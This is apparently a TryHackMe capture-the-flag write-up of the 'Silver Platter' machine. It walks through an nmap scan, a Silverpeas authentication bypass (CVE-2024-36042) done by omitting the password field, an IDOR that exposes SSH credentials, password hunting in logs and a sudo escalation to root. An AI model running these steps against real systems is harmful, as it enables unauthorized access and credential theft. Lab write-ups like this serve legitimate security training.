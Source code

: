 # Silver Platter - TryHackMe Writeup

**TL;DR:**  Exploiting an authentication bypass vulnerability in Silverpeas (CVE-2024-36042) to gain initial access, discovering SSH credentials through IDOR vulnerability, and escalating privileges via password reuse and sudo misconfiguration.

## Target
- Machine: `silver.thm`
- Date: 2025-7-13
- Environment: TryHackMe / CTF

## Steps:

1. Initial scan:

```bash
nmap -sV -sC -T4 -Pn silver.thm

22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
8080/tcp open  http-proxy
```
-------------------

While checking the site on port 80 we found:

![contact](images/contact-user.png)

We found manager username. `scr1ptkiddy`
on `Silverpeas` software

--------------------

2. Directory discovery:

We've already found out the project name they're using. `silverpeas`
it's run on `8080` port.

URL: `http://silver.thm:8080/silverpeas/`

![Silverpeas](images/silverpeas.png)

About the project:
`Silverpeas is an open-source intranet software for sharing, collaboration, and communication, with features like content sharing, messaging, and knowledge ...`

---------------------

3. Login bypass

#### CVE-2024-36042
`Silverpeas before 6.3.5 allows authentication bypass by omitting the Password field to AuthenticationServlet, often providing an unauthenticated user with ...`

We gonna remove password field from login request via `burp suite` :

![Remove password field](images/burp-suite2.png)

login successfully !

----------------------

4. IDOR

If we look at the URL of the notifications we can see the ID of the user.

![ID of the user](images/notifications.png)

We can discover other users' messages by changing the ID.

ID 6 contains the SSH credentials.

![ssh credentials of 'tim'](images/ssh-credential2.png)

--------------------------------------

## User Flag

connect via ssh with credentials that we discovered.

```bash
ssh tim@silver.thm
```

```bash
cat user.txt

THM{[REDACTED]}
```

## Root Flag

Search for passwords in files:

```bash
fgrep --color -Rsi "password" *


log/auth.log.2:Dec 13 15:45:57 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=[REDACTED]/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-

```
We discovered database password of user `tyler` in the log files.
we reuse it to switch to `tyler`.

```bash

tim@ip-10-10-227-130:/var$ su tyler
Password: 
tyler@ip-10-10-227-130:/var$ id
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```

--------------------

User `tyler` can run any command as root without password:
```bash
tyler@ip-10-10-227-130:~$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on ip-10-10-227-130:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tyler may run the following commands on ip-10-10-227-130:
    (ALL : ALL) ALL


tyler@ip-10-10-227-130:~$ sudo su
root@ip-10-10-227-130:/home/tyler# id
uid=0(root) gid=0(root) groups=0(root)
```
Root flag:

```bash
root@ip-10-10-227-130:/home/tyler# cat /root/root.txt 
THM{[REDACTED]}
```
